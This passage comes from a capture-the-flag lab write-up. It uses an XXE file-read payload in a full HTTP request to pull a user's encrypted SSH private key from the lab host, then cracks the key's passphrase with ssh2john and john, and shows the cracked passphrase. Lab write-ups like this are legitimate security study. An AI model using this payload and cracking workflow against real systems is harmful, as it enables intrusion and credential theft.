   ```
  pollinate:x:111:1::/var/cache/pollinate:/bin/false
  joe:x:1002:1002::/home/joe:/bin/bash
  barry:x:1003:1003::/home/barry:/bin/bash<p/>    
  </section>
  ```
  
- Perfect, since we got `/etc/passwd` with LFI, that also means we can get access to any file in the system. SSH doesn't allow password access and SSH key was already mentioned in the comment in source code of main page so let's look for it.
  We do the same payload as above, just change the directory from `/etc/passwd` to `/home/barry/.ssh/id_rsa` since we are looking for `Barry's` SSH key, that's the only username we have beside `admin`.

  ```
  POST /home.php HTTP/1.1
  Host: 10.10.167.181:8765
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 258
  Origin: http://10.10.167.181:8765
  Connection: keep-alive
  Referer: http://10.10.167.181:8765/home.php
  Cookie: PHPSESSID=rtodpf8g5e6gecq7u4humludj6
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  xml=<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
  <!DOCTYPE+foo+[
  +++<!ELEMENT+foo+ANY+>
  +++<!ENTITY+xxe+SYSTEM++"file%3a///home/barry/.ssh/id_rsa"+>]>
  <comment>
  ++<name>Joe+Hamd</name>
  ++<author>Barry+Clad</author>
  ++<com>%26xxe%3b</com>
  </comment>

  -----BEGIN RSA PRIVATE KEY-----
  Proc-Type: 4,ENCRYPTED
  DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
  
  [SNIP!]
  -----END RSA PRIVATE KEY-----
  ```

- Now we have everything we need to gain access, username `barry` and his SSH key. Save the RSA key, convert it to hash and crack it in order to get passphrase. Change key permission to 600 and then login.

  ```
  ssh2john id_rsa > barry.hash     
                                                                                                                     
  john --wordlist=/rockyou.txt barry.hash 
  Using default input encoding: UTF-8
  Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
  Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
  Cost 2 (iteration count) is 1 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  urieljames       (id_rsa)     
  1g 0:00:00:01 DONE (2025-05-19 13:53) 0.9900g/s 2941Kp/s 2941Kc/s 2941KC/s urieljr.k..urielito1000
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 
  ```